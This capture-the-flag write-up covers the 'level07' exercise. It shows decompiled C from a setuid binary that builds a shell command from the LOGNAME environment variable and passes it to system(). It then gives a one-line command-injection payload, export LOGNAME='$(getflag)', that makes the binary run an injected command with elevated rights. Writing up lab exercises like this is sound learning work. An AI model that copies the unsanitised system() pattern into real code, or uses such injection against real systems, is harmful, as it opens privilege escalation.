 ## STEPS

### 1. Initial Investigation:
In the home directory, I found en executable named level07.
I decompiled the binary using https://dogbolt.org/, which revealed the following C code:
```
int main(int argc,char **argv,char **envp)
{
	char *pcVar1;
	int iVar2;
	char *buffer;
	gid_t gid;
	uid_t uid;
	char *local_1c;
	__gid_t local_18;
	__uid_t local_14;`
	
	local_18 = getegid();
	local_14 = geteuid();
	setresgid(local_18,local_18,local_18);
	setresuid(local_14,local_14,local_14);
	local_1c = (char *)0x0;
	pcVar1 = getenv("LOGNAME");
	asprintf(&local_1c,"/bin/echo %s ",pcVar1);
	iVar2 = system(local_1c);
	return iVar2;

}
```

This code sets the effective group ID (EGID) and effective user ID (EUID) to the real group and user ID values, respectively. It then retrieves the value of the LOGNAME environment variable and uses it to construct a command to execute /bin/echo with the value of LOGNAME as an argument.

### 2.Exploiting the Binary:
Understanding that the binary executes /bin/echo with the value of LOGNAME, I decided to exploit it by manipulating the LOGNAME environment variable. I set **LOGNAME** to **$(getflag)** using the following command:

```
export LOGNAME='$(getflag)'
```
This sets LOGNAME to the result of executing the getflag command.
With the LOGNAME environment variable manipulated, I executed the level07 binary. As expected, it executed the command specified in the LOGNAME variable ($(getflag)) and printed the flag.
![alt text](level07.png)